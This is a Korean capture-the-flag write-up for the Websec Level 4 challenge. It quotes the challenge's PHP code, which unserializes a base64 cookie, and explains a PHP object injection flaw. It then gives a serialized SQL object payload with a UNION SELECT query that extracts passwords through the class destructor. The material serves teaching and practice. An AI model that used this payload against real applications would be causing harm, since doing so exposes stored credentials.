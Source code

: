```yaml
---
title : "Websec - Level 4"
excerpt : "Websec - Level 4 Babysteps"
toc : true
toc_sticky : true
categories :
  - Websec
tags :
  - PHP object injection
---
```


## 1. Source code
```php
$sql = new SQL();
$sql->query = 'SELECT username FROM users WHERE id=';
if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
```
SQL 클래스의 소멸자 
```php
public function execute() {
        return $this->conn->query ($this->query);
    }

public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
```

## 2. Vulnerability

이 문제는 unserialize 함수를 이용한 **PHP object injection** 문제다.  
자세한 내용은 [PHP Object Injection](https://blog.do9.kr/150)  
**unserialize** 함수는 serialize된 문자열을 PHP 값으로 반환해주는 함수다.  
자세한 내용은 [PHP Serialize/Unserialize](http://chongmoa.com/php/6902)

코드를 보면 base64인코딩 된 쿠키 값을 디코딩 한 후 unserialize해서 변수에 담는다. **그 다음 주목할 부분은 try catch 구문이다.**
sess_data 변수 값이 배열이 아니라면 catch 구문으로 이동을 하고 예외상황을 출력한다. 이 부분이 unserialize 함수를 이용한 취약점이 터지는 곳이다.

## 3. Solution

쿠키 값에 SQL 객체를 serialize한 뒤 base64 인코딩 한 값을 줘야 한다. 
우선 플래그를 보려면 SQL 객체의 query 변수 값은 이렇게 되어야 한다.  
```select username from users where id=1 union select password from users where id=1```  
SQL 객체를 serialize를 해주면 이렇게 된다.  
```O:3:"SQL":1:{s:5:"query";s:81:"select username from users where id=1 union select password from users where id=1";}```  
이 문자열을 base64인코딩 해줘서 쿠키값으로 주면 catch 구문에서 sess_data 값을 출력을 해주므로 SQL 객체를 실행시켜서 소멸자에서 query를 실행시켜서 username에 플래그 값이 나온다. 
